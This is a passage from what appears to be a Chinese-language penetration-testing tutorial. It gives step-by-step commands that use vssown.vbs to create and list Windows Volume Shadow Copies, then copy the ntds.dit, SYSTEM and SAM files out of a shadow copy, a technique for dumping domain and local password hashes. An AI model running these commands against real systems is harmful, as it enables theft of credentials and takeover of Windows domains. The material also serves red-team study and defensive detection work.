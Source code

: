 ```bash
cscript vssown.vbs /create c
```

[![](assets/1706090550-b458119bdb30aa047754a67d586a8164.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095306-51307cce-ba5b-1.png)  
Step 3:列出当前影卷拷贝

```bash
cscript vssown.vbs /list
```

[![](assets/1706090550-2e3236508d3fcdc9a07a45942d84656b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095749-fa3ccea8-ba5b-1.png)  
Step 4：复制 ntds.dit、SYSTEM、SAM 文件

```bash
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\vssown\ntds.dit
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\SYSTEM C:\vssown\SYSTEM
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\SAM C:\vssown\SAM
```

[![](assets/1706090550-ee5a79f8e7803e19bcac67be5cca2540.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095807-05039d12-ba5c-1.png)  
Step 5:查看拷贝的文件
